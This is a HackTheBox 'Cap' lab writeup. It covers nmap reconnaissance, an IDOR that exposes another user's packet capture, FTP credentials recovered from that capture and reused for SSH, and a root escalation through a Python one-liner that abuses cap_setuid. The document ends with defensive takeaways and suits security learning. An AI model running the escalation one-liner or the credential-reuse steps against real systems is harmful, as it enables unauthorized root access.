






# 🏴‍☠️ HackTheBox — Cap Writeup


> **Machine:** Cap
> **OS:** Linux (Ubuntu 20.04)
> **Author:** infosecjack
> **Date solved:** July 2026

---

## 📋 Summary

Cap is an easy Linux machine running a web-based **Security Dashboard** (Gunicorn/Python) that performs administrative functions, including network packet captures. The path to root involves three stages:

1. An **IDOR** (Insecure Direct Object Reference) vulnerability grants access to another user's packet capture.
2. The capture contains **plaintext FTP credentials** that are reused for SSH, giving an initial foothold.
3. A misconfigured **Linux capability** (`cap_setuid` on the Python binary) is abused to escalate to **root**.

**Skills practiced:** Web enumeration · IDOR exploitation · Packet capture analysis (Wireshark) · Linux capabilities privilege escalation

---

## 🗺️ Table of Contents

- [Reconnaissance](#-reconnaissance)
- [Web Enumeration](#-web-enumeration)
- [Vulnerability 1 — IDOR](#-vulnerability-1--idor)
- [Packet Analysis](#-packet-analysis)
- [Foothold — SSH Access](#-foothold--ssh-access)
- [Privilege Escalation — Linux Capabilities](#-privilege-escalation--linux-capabilities)
- [Key Takeaways](#-key-takeaways)

---

## 🔍 Reconnaissance

Started with an `nmap` scan to identify open ports and running services.

```bash
# -sC : run default scripts   -sV : detect service versions   -oN : save output
nmap -sC -sV -oN cap_initial.txt <TARGET_IP>
```

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 21   | FTP     | vsftpd 3.0.3 |
| 22   | SSH     | OpenSSH 8.2p1 (Ubuntu) |
| 80   | HTTP    | Gunicorn ("Security Dashboard") |

A full port scan (`-p-`) confirmed no additional ports were hidden.

```bash
nmap -p- --min-rate=1000 -oN cap_allports.txt <TARGET_IP>
```



The HTTP server on port 80 stood out as the most promising entry point.

---

## 🌐 Web Enumeration

Browsing to `http://<TARGET_IP>` revealed a **Security Dashboard**, already logged in as the user **Nathan** — no credentials required.

The left sidebar exposed administrative functions:
- **Security Snapshot (5 Second PCAP + Analysis)** — captures live network traffic
- **IP Config** — runs `ifconfig`
- **Network Status** — runs `netstat`



---

## 🎯 Vulnerability 1 — IDOR

Clicking **Security Snapshot** performed a capture and displayed the results at a URL of the form:

```
http://<TARGET_IP>/data/1
```

The capture ID (`1`) is **sequential**, which suggested captures from previous users might exist. Manually changing the ID to `0`:

```
http://<TARGET_IP>/data/0
```

...returned a **different capture** (72 packets vs. 9), proving the application does not verify ownership of the requested resource.

> 💡 **IDOR (Insecure Direct Object Reference):** the app references objects by a direct ID and fails to check whether the requesting user is authorized to access that object. Simply changing the ID grants access to other users' data.



Downloaded the capture at `/data/0` (`0.pcap`) for analysis.

---

## 📦 Packet Analysis

Opened `0.pcap` in **Wireshark** and applied a display filter to isolate FTP traffic:

```
ftp
```

Since **FTP transmits credentials in plaintext**, the username and password were fully readable:

```
Request: USER nathan
Request: PASS Buck3tH4TF0RM3!
Response: 230 Login successful.
```

> 💡 **Why this works:** FTP has no encryption. Any captured traffic exposes credentials in cleartext — a strong argument for using SFTP/FTPS instead.



**Credentials found:**

| Field | Value |
|-------|-------|
| Username | `nathan` |
| Password | `Buck3tH4TF0RM3!` |

---

## 🚪 Foothold — SSH Access

The FTP credentials were **reused** for SSH access (a common real-world mistake):

```bash
ssh nathan@<TARGET_IP>
# Password: Buck3tH4TF0RM3!
```

Access granted as `nathan`. Retrieved the user flag:

```bash
nathan@cap:~$ cat user.txt
5968573x xxxxxxxxxxxxxxxxxxxxxxx88   # (redacted)
```



---

## 👑 Privilege Escalation — Linux Capabilities

Enumerated files with special Linux **capabilities**:

```bash
# -r : recursive   2>/dev/null : suppress permission errors
getcap -r / 2>/dev/null
```

**Key finding:**

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

> 💡 **Linux Capabilities** split root's power into granular units instead of all-or-nothing. `cap_setuid` lets a process change its user ID to **any** user — including **root (UID 0)**. Granting this to a full programming language like Python is effectively handing over root.

This capability was likely assigned so the dashboard could capture packets (which needs elevated privileges), but it opened a direct path to root.

**Exploitation** — use Python to set UID to 0 and spawn a shell:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Result:

```
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

Root achieved. Retrieved the root flag:

```bash
root@cap:~# cat /root/root.txt
```



---

## 🎓 Key Takeaways

| # | Lesson |
|---|--------|
| 1 | **Encryption is not optional** — plaintext FTP leaked the login credentials. SFTP/FTPS would have prevented this. |
| 2 | **Always verify authorization** — the IDOR existed because the app never checked resource ownership. |
| 3 | **Least privilege matters** — assigning `cap_setuid` to Python was excessive and opened a root path. |
| 4 | **Password reuse is dangerous** — the same FTP password worked for SSH. |

---

## 🛠️ Tools Used

`nmap` · `Firefox` · `Wireshark` · `ssh` · `getcap` · `python3`

---

<p align="center">
  <i>Written for educational purposes. All testing was performed on an authorized HackTheBox lab environment.</i>
</p>
